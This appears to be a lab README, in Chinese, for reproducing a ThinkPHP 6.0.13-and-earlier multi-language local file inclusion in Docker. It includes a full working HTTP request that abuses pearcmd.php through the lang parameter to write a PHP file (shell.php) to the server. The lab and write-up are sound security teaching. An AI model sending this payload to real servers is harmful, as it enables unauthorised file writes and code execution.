 # ThinkPHP 多语言本地文件包含漏洞

ThinkPHP是一个在中国使用较多的PHP框架。在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意PHP文件。

虽然只能包含本地PHP文件，但在开启了`register_argc_argv`且安装了pcel/pear的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

参考链接：

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> （本文介绍了`pearcmd.php`利用技巧的原理）

## 漏洞环境

执行如下命令启动一个使用ThinkPHP 6.0.12版本开发的Web应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到ThinkPHP默认的欢迎页面。

## 漏洞利用

首先，ThinkPHP多语言特性不是默认开启的，所以我们可以尝试包含`public/index.php`文件来确认文件包含漏洞是否存在：

![](1.png)

如果漏洞存在，则服务器会出错，返回500页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

1. PHP环境开启了`register_argc_argv`
2. PHP环境安装了pcel/pear

Docker默认的PHP环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写`shell.php`文件：

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

如果服务器返回pearcmd的命令行执行结果，说明漏洞利用成功：

![](2.png)

此时访问`http://your-ip:8080/shell.php`即可发现已经成功写入文件：

![](3.png)
